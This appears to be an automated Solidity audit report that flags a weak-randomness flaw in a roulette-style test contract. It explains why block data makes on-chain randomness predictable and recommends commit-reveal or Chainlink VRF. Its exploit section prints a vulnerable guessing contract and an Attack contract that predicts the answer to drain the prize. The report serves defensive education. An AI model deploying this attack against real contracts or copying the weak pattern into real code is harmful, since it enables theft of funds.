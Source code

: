 <button class='date-button'>2023-11-24</button>

# Audit Report

> 🔍 `Filename`: /Users/sikk/Desktop/Antibug/SafeDevAnalyzer/test/prng/roulette.sol
---

[<button class='styled-button'>Korean</button>](roulette_kr.md)
<br />


<style>
    .date-button{
        color:black;
        border:none;
        font-weight: bold;
        background-color: sand;
        width: 150px;
        height: 25px;
        float: right;
        border-radius: 20px;
    }
    .styled-button{
        color: black;
        border: none;
        font-weight: bold;
        background-color: lightskyblue;
        width: 100px;
        height: 30px;
        float: right;
        border-radius: 20px;
    }
    .styled-button:hover{
        color: black;
        border: none;
        font-weight: bold;
        background-color: pink;
        width: 100px;
        height: 30px;
        float: right;
        cursor: pointer;
    }
</style>

               
<details>
<summary style='font-size: 20px;'>weak-prng</summary>
<div markdown='1'>

## Detect Results

| Detector | Impact | Confidence | Info |
|:---:|:---:|:---:|:---:|
| weak-prng | <span style='color:lightcoral'> High </span> | <span style='color:olivedrab'> Medium </span> | GuessTheRandomNumber.guess(uint256) (test/prng/roulette.sol#5-17) uses a weak PRNG: "_guess == answer (test/prng/roulette.sol#13)" 
 |||


## Vulnerabiltiy in code:

```solidity
line 5:     function guess(uint _guess) public {

```
 ---

 ```solidity
line 13:         if (_guess == answer) {

```
 ---

 
<details>

<summary style='font-size: 18px; color:pink;'> 💡 Background </summary><br />

- Randomness in blockchain can be categorized into two types: pseudo-randomness and true randomness.
    - Pseudo-randomness is generated by deterministic algorithms, and if you know the initial seed value, it can be predicted. 
    - True randomness relies on entropy sources and generates random values that are unpredictable.

- Nodes in a blockchain network can generate pseudo-randomness using various algorithms, and this randomness is used in scenarios such as selecting lottery winners, distributing rewards, determining the rarity of NFT token items in games, and distributing loot.
- However, blockchain ensures that all nodes in the network reach the same conclusion, so if the same input is provided, the output of a contract will always be the same.   
    
</details>

<br />

## Description:


In blockchain, it is not possible to generate true randomness. 
The absence of true randomness means that the results of random number generation can be predicted, allowing for manipulation.

True randomness relies on unpredictable external factors such as atmospheric noise or user actions, but smart contracts do not have direct access to such factors, making it impossible to generate true randomness. 
This limitation is particularly important when smart contracts are used for security mechanisms like private key generation, as attackers could potentially predict the private keys and gain unauthorized access to accounts or funds.
There are two main methods for generating random numbers in blockchain:

1. Using Randomness from the Blockchain Network Nodes:

   Blockchain networks provide certain variables in each block, such as `block.basefee(uint)`, `block.chainid(uint)`, `block.coinbase()`, `block.difficulty(uint)`, `block.gaslimit(uint)`, `block.number(uint)`, `block.timestamp(uint)`, and `blockhash(uint)`. 
   Among these, `block.difficulty`, `blockhash`, `block.number`, and `block.timestamp` are commonly used for random number generation.
   
   https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties:~:text=use%20utility%20functions.-,Block%20and%20Transaction%20Properties,%EF%83%81,-blockhash(uint%20blockNumber
   
   Randomness generated based on block data can limit the ability of typical users to predict the random numbers, but malicious miners can potentially manipulate block data to influence the generated randomness. 
   Block data remains the same for a given block, meaning that generating randomness from the same block will always produce the same result.

2. Using External Random Number Generators:

   Blockchain oracles can be used to generate random number seeds, and off-chain data can be obtained on-chain using on-chain oracles. 
   External randomness sources, such as API data, can be fetched and used to influence contract behavior. 
   This can increase unpredictability compared to generating randomness using blockchain variables, but it may introduce trust issues related to the oracle's reliability.
    

## Recommendation:


- It is advisable not to use `block.hash` and `block.timestamp` as sources for random number generation.
- Utilizing a `Commit-Reveal Scheme,` where participants commit values in advance and all commits are submitted before the actual values are revealed, is a good approach for generating randomness.
- Using decentralized solutions like `Chainlink VRF (Verifiable Random Function)` that leverage multiple inputs to generate random numbers is recommended.
- Employing hardware random number generators (RNG) to produce unpredictable, truly random values is a secure choice, making it difficult for attackers to predict the outcome.    
    
    

## Exploit scenario:


```solidity
contract GuessTheRandomNumber {
    constructor() payable {}
    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
 }
```
 
- If you are generating random numbers by combining the `blockhash` and `block.timestamp` of the previous block as a seed, this is used in a contract where users can guess a number, and if their guess matches the generated number, they win `1 ether`. 
- While it may seem like randomness has been introduced, it's important to note that it can still be manipulated. 

```solidity
contract Attack {
    receive() external payable {}

    unction attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        guessTheRandomNumber.guess(answer);
    }
 
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
 }
```    

- The attacker deploys the `Attack` contract by providing the address of the `GuessTheRandomNumber` contract. 
- In the `attack` function, the attacker replicates the guessing logic of the `GuessTheRandomNumber` contract, using the same method of combining the `blockhash` and `block.timestamp` of the previous block as a seed to generate random numbers.

- Since the `GuessTheRandomNumber` contract's `guess` function is executed in the same block, the values of `block.number` and `block.timestamp` remain unchanged within that block. 
- This allows the attacker to generate the same random number and, as a result, claim the `1 ether` prize.


## Real World Examples:


1. `SmartBillions ICO (2017)`: SmartBillions was an Ethereum-based lottery platform where an attacker was able to manipulate the lottery game's results to claim prizes fraudulently.
    https://etherscan.io/address/0x5ace17f87c7391e5792a7683069a8025b83bbd85
    https://www.reddit.com/r/ethereum/comments/74d3dc/smartbillions_lottery_contract_just_got_hacked/   
     
2. `Fomo3D (2018)`: Fomo3D was an Ethereum smart contract-based game where an attacker could manipulate the game's outcome to dishonestly win prizes.
    https://etherscan.io/address/0xa62142888aba8370742be823c1782d17a0389da1
    https://medium.com/@zhongqiangc/randomness-in-smart-contracts-is-predictable-and-vulnerable-fomo3d-part-1-4d500c628191
    

## Reference:


- https://www.slowmist.com/articles/solidity-security/Common-Vulnerabilities-in-Solidity-Randomness.html
- https://medium.com/@solidity101/100daysofsolidity-072-source-of-randomness-in-solidity-smart-contracts-ensuring-security-and-7af014bfac22
- https://dev.to/natachi/attack-vectors-in-solidity-09-bad-randomness-also-known-as-the-nothing-is-secret-attack-ca9
- https://medium.com/rektify-ai/bad-randomness-in-solidity-8b0e4a393858
    

</details>

